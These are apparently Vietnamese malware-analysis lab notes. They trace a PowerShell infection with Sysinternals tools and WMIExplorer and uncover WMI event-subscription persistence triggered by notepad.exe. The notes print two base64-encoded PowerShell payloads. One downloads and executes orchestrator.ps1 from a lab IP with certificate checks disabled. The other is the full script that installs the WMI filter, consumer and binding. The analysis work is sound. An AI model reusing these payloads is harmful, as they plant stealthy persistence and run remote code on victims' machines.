





```txt
Công cụ	Lưu file	Mở lại bằng giao diện gốc	Có lịch sử?
Process Monitor	.PML	Có	Có, trong thời gian capture
Wireshark	.pcapng	Có	Có, gói mạng đã bắt
Autoruns	.arn	Có	Snapshot
Process Explorer	.txt	Không như cây gốc	Snapshot
System Informer	Log / xuất dữ liệu	Một phần	Tùy chức năng đã bật
TCPView	.txt	Không như bảng live	Snapshot
```

# 1. TCPView

PS1 PID 4900 - Connect 

# 2. Kiểm tra xem `mshta.exe` có chạy hay không

```ps1
Process Name is mshta.exe

[Ctrl T] Process Tree 
    -> PS1: stage1.ps1
    -> PS1: stage3.ps1
    -> Thấy reg: payload

```

# 2. Autoruns + WmiExplorer_2.0.0.2

Trước khi chạy malware thì thực hiện chạy autoruns (admin) và lưu 1 bản base.

Khi compare sau khi chạy câu lệnh thì chúng ta thấy như sau:



Thấy WMI đang được cấu hình để theo dõi sự kiện tạo tiến trình notepad.exe, với khoảng thời gian kiểm tra là 5 giây.


Mỏ WMIExplorer lên và tìm đúng namespace ROOT\subscription:CommandLineEventConsumer	thì phát hiện được có dấu hiện của cơ chế thực thi mã đáng nghi thông qua WMI.



Trước đó ta thấy có EventFilter và ở đây chúng ta thấy có CommandLineEventCons. Nếu 2 phần này được liên kết với nhau bởi `__FilterToConsumerBinding` thì ta sẽ có một chuỗi hoạt động. 



Khi kiểm tra thì đúng là có FilterToConsumerBinding liên kết 2 phần trên:



Khi lấy payload ở trên ta được như sau:

<details>
<summary>Bấm vào đây để xem nội dung</summary>

```ps1
powershell.exe -NoP -W H -Exec Bypass -Enc JABFAHIAcgBvAHIAQQBjAHQAaQBvAG4AUAByAGUAZgBlAHIAZQBuAGMAZQA9ACcAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAnADsAdAByAHkAIAB7ACAAWwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAHIAdgBlAHIAQwBlAHIAdABpAGYAaQBjAGEAdABlAFYAYQBsAGkAZABhAHQAaQBvAG4AQwBhAGwAbABiAGEAYwBrAD0AewAkAHQAcgB1AGUAfQA7AFsATgBlAHQALgBTAGUAcgB2AGkAYwBlAFAAbwBpAG4AdABNAGEAbgBhAGcAZQByAF0AOgA6AFMAZQBjAHUAcgBpAHQAeQBQAHIAbwB0AG8AYwBvAGwAPQBbAE4AZQB0AC4AUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbABUAHkAcABlAF0AOgA6AFQAbABzADEAMgA7AFsATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5AD0AJABuAHUAbABsADsAJAB3AGMAPQBOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdwBjAC4AUAByAG8AeAB5AD0AJABuAHUAbABsADsASQBFAFgAIAAkAHcAYwAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcABzADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADAAMAA6ADgANAA0ADMALwBvAHIAYwBoAGUAcwB0AHIAYQB0AG8AcgAuAHAAcwAxACcAKQAgAH0AIABjAGEAdABjAGgAIAB7ACAAfQAgADsAIABlAHgAaQB0ACAAMAA=
```

</details>

Giải mã:

```ps1
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("BASE64_CUA_BAN")) -replace ';', ";`n" -replace '\{', "{`n" -replace '\}', "`n}"
```



# 3. Sử dụng Promon

```ps1
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("JABTADIAIAA9ACAAIgBoAHQAdABwAHMAOgAvAC8AMQA5ADIALgAxADYAOAAuADUANgAuADEAMAAwADoAOAA0ADQAMwAvAG8AcgBjAGgAZQBzAHQAcgBhAHQAbwByAC4AcABzADEAIgAKAAoAQAAoACcAXwBfAEYAaQBsAHQAZQByAFQAbwBDAG8AbgBzAHUAbQBlAHIAQgBpAG4AZABpAG4AZwAnACwAJwBDAG8AbQBtAGEAbgBkAEwAaQBuAGUARQB2AGUAbgB0AEMAbwBuAHMAdQBtAGUAcgAnACwAJwBfAF8ARQB2AGUAbgB0AEYAaQBsAHQAZQByACcAKQAgAHwAIABGAG8AcgBFAGEAYwBoAC0ATwBiAGoAZQBjAHQAIAB7AAoAIAAgACAAIABHAGUAdAAtAEMAaQBtAEkAbgBzAHQAYQBuAGMAZQAgAC0ATgBhAG0AZQBzAHAAYQBjAGUAIAByAG8AbwB0AC8AcwB1AGIAcwBjAHIAaQBwAHQAaQBvAG4AIAAtAEMAbABhAHMAcwBOAGEAbQBlACAAJABfACAALQBFAEEAIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlACAAfAAKACAAIAAgACAAIAAgACAAIABXAGgAZQByAGUALQBPAGIAagBlAGMAdAAgAHsAIAAkAF8ALgBOAGEAbQBlACAALQBlAHEAIAAnAE4AbwB0AGUAcABhAGQAVAByAGkAZwBnAGUAcgAnACAAfQAgAHwAIABSAGUAbQBvAHYAZQAtAEMAaQBtAEkAbgBzAHQAYQBuAGMAZQAgAC0ARQBBACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAKAH0ACgAKACQARgAgAD0AIABOAGUAdwAtAEMAaQBtAEkAbgBzAHQAYQBuAGMAZQAgAC0ATgBhAG0AZQBzAHAAYQBjAGUAIAByAG8AbwB0AC8AcwB1AGIAcwBjAHIAaQBwAHQAaQBvAG4AIAAtAEMAbABhAHMAcwBOAGEAbQBlACAAXwBfAEUAdgBlAG4AdABGAGkAbAB0AGUAcgAgAC0AUAByAG8AcABlAHIAdAB5ACAAQAB7AAoAIAAgACAAIABuAGEAbQBlACAAPQAgACcATgBvAHQAZQBwAGEAZABUAHIAaQBnAGcAZQByACcAOwAgAEUAdgBlAG4AdABOAGEAbQBlAFMAcABhAGMAZQAgAD0AIAAnAHIAbwBvAHQAXABDAGkAbQBWADIAJwA7ACAAUQB1AGUAcgB5AEwAYQBuAGcAdQBhAGcAZQAgAD0AIAAnAFcAUQBMACcACgAgACAAIAAgAFEAdQBlAHIAeQAgAD0AIAAiAFMARQBMAEUAQwBUACAAKgAgAEYAUgBPAE0AIABfAF8ASQBuAHMAdABhAG4AYwBlAEMAcgBlAGEAdABpAG8AbgBFAHYAZQBuAHQAIABXAEkAVABIAEkATgAgADUAIABXAEgARQBSAEUAIABUAGEAcgBnAGUAdABJAG4AcwB0AGEAbgBjAGUAIABJAFMAQQAgACcAVwBpAG4AMwAyAF8AUAByAG8AYwBlAHMAcwAnACAAQQBOAEQAIABUAGEAcgBnAGUAdABJAG4AcwB0AGEAbgBjAGUALgBOAGEAbQBlACAAPQAgACcAbgBvAHQAZQBwAGEAZAAuAGUAeABlACcAIgAKAH0ACgAKACQAaQBuAG4AZQByACAAPQAgACIAYAAkAEUAcgByAG8AcgBBAGMAdABpAG8AbgBQAHIAZQBmAGUAcgBlAG4AYwBlAD0AJwBTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlACcAOwB0AHIAeQAgAHsAIABbAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBTAGUAcgB2AGUAcgBDAGUAcgB0AGkAZgBpAGMAYQB0AGUAVgBhAGwAaQBkAGEAdABpAG8AbgBDAGEAbABsAGIAYQBjAGsAPQB7AGAAJAB0AHIAdQBlAH0AOwBbAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAD0AWwBOAGUAdAAuAFMAZQBjAHUAcgBpAHQAeQBQAHIAbwB0AG8AYwBvAGwAVAB5AHAAZQBdADoAOgBUAGwAcwAxADIAOwBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBEAGUAZgBhAHUAbAB0AFcAZQBiAFAAcgBvAHgAeQA9AGAAJABuAHUAbABsADsAYAAkAHcAYwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ADsAYAAkAHcAYwAuAFAAcgBvAHgAeQA9AGAAJABuAHUAbABsADsASQBFAFgAIABgACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwAkAFMAMgAnACkAIAB9ACAAYwBhAHQAYwBoACAAewAgAH0AIAA7ACAAZQB4AGkAdAAgADAAIgAKAAoAJABpAG4AbgBlAHIAQgA2ADQAIAA9ACAAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAQgB5AHQAZQBzACgAJABpAG4AbgBlAHIAKQApAAoAJABjAG8AbgBzAHUAbQBlAHIAQwBtAGQAIAA9ACAAIgBwAG8AdwBlAHIAcwBoAGUAbABsAC4AZQB4AGUAIAAtAE4AbwBQACAALQBXACAASAAgAC0ARQB4AGUAYwAgAEIAeQBwAGEAcwBzACAALQBFAG4AYwAgACQAaQBuAG4AZQByAEIANgA0ACIACgAKACQAQwAgAD0AIABOAGUAdwAtAEMAaQBtAEkAbgBzAHQAYQBuAGMAZQAgAC0ATgBhAG0AZQBzAHAAYQBjAGUAIAByAG8AbwB0AC8AcwB1AGIAcwBjAHIAaQBwAHQAaQBvAG4AIAAtAEMAbABhAHMAcwBOAGEAbQBlACAAQwBvAG0AbQBhAG4AZABMAGkAbgBlAEUAdgBlAG4AdABDAG8AbgBzAHUAbQBlAHIAIAAtAFAAcgBvAHAAZQByAHQAeQAgAEAAewAKACAAIAAgACAAbgBhAG0AZQAgAD0AIAAnAE4AbwB0AGUAcABhAGQAVAByAGkAZwBnAGUAcgAnADsAIABDAG8AbQBtAGEAbgBkAEwAaQBuAGUAVABlAG0AcABsAGEAdABlACAAPQAgACQAYwBvAG4AcwB1AG0AZQByAEMAbQBkAAoAfQAKAAoATgBlAHcALQBDAGkAbQBJAG4AcwB0AGEAbgBjAGUAIAAtAE4AYQBtAGUAcwBwAGEAYwBlACAAcgBvAG8AdAAvAHMAdQBiAHMAYwByAGkAcAB0AGkAbwBuACAALQBDAGwAYQBzAHMATgBhAG0AZQAgAF8AXwBGAGkAbAB0AGUAcgBUAG8AQwBvAG4AcwB1AG0AZQByAEIAaQBuAGQAaQBuAGcAIAAtAFAAcgBvAHAAZQByAHQAeQAgAEAAewAKACAAIAAgACAARgBpAGwAdABlAHIAIAA9ACAAWwBSAGUAZgBdACQARgA7ACAAQwBvAG4AcwB1AG0AZQByACAAPQAgAFsAUgBlAGYAXQAkAEMACgB9ACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAA==")) -replace ';', ";`n" -replace '\{', "{`n" -replace '\}', "`n}"


```